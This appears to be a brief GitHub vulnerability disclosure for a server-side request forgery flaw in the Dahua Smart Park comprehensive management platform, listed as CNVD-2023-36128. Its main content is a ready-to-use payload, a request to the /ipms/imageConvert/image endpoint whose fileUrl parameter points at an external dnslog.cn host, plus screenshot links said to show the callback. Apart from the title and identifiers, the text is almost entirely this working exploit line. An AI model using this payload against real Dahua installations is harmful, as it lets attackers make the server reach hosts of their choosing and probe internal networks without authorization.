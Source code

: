 SSRF vulnerability of the front desk of comprehensive management platform of Zhejiang Dahua Smart Park

official website：https://www.dahuatech.com/

CNVD Number:CNVD-2023-36128 

```PAYLOAD:  /ipms/imageConvert/image?fileUrl=http://khxjyl.dnslog.cn/1.jpg```

![WPS图片(1)](https://github.com/RCEraser/cve/assets/131632691/2e990791-c41f-4f73-8438-18d46e144d22)

DNSLOG The command output is displayed

![WPS图片(2)](https://github.com/RCEraser/cve/assets/131632691/515e3850-c9af-40fb-8b34-a4a3e978ccb2)
